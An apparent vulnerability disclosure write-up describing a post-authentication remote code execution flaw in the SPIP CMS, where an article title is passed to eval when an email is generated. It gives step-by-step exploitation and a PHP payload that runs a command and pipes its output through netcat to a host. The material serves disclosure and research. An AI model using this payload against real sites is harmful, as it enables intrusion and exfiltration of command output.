 
## Postauth email content eval

This one is quite easy to trigger, but doesn't work at every try. I'm not really sure why, most likely caching in place, or rate-limit on the number of emails sent.. Might also be related to the job in charge of sending emails, but same here, I did not investigate further.

1. Login as author
1. Create section that will contain our article
1. Create article with the title: `<?php system("id | nc 127.0.0.1 8000");?>`
1. Change article status from draft to evaluation
1. Enjoy your RCE!

It is to note that the RCE might be a blind one depending on your setup, the command result can be sent to your public IP or even received by email! :D

Fun fact: I knew that Spip really suffers from `too many evals`, so instead of reading code, I just sent similar payloads all over the place, and used my fork of php that contains builtin introspection, this tool should be made public for Rump In Rennes in October 2022! ;)

It took only a few forms to trigger the eval statement with the unsanitized title and content reflected in the evaled content.

<img class="img_small" src="meme-eval-and-go.png" alt="memememe-eval-and-go">

Here are the screenshots of the same issue exploited (**WITH THEIR CONSENT**) on [Root-Me](https://www.root-me.org/)!

Initial article creation and status change:

<img class="img_full" src="rce1-rootme-payload.png" alt="rce1-rootme-payload">
